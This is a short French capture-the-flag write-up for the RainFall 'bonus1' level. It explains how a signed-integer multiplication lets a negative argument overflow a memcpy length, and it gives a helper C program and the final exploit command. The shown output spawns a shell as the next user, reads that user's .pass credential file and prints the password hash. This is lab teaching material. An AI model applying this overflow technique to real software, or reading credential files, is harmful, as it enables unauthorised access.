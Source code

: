 ﻿En etudiant le programme, on voit qu'il est vulnerable a cause d'une multiplication d'un entier signé par 4.  
En entree le programme verifie juste que la valeur rentree dans `atoi` est inferieur ou egal a 9.  
Et si c'est le cas, il va memcpy la valeur de `atoi` * 4 dans un buffer de 36 chars.

Ainsi si on trouve un moyen de passer une valeur negative, qui une fois multiplié par 4,  
donnera une valeur positive, on pourra overflow le buffer et ainsi set la variable  
qui est comparee avec `0x574f4c46` et executer ou non un shell.

J'ai pu trouver une valeur qui marche a la main via ce mini programme:
```c++
#include <stdio.h>

char in[64];

int main()
{
  scanf("%s",in);
  printf("CMP: %i | MEMCPY: %u\n", (int)atoi(in), (size_t)(atoi(in) * 4));
}

// STDIN  > -2147483637
// STDOUT > CMP: -2147483637 | MEMCPY: 44
```

Exploit final:
```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```